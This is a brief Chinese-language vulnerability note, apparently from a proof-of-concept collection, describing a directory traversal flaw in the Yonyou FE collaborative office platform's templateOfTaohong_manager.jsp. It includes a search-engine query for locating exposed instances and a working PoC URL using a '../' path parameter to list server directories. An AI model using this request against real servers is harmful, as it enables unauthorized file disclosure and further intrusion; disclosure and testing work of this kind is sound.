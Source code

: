 # 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

```
用友 FE协作办公平台
```

## 网络测绘

```
"FE协作"
```

## 漏洞复现

登录页面

![image-20220520141413849](images/202205201414968.png)

验证POC

```
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![image-20220520141519859](images/202205201415920.png)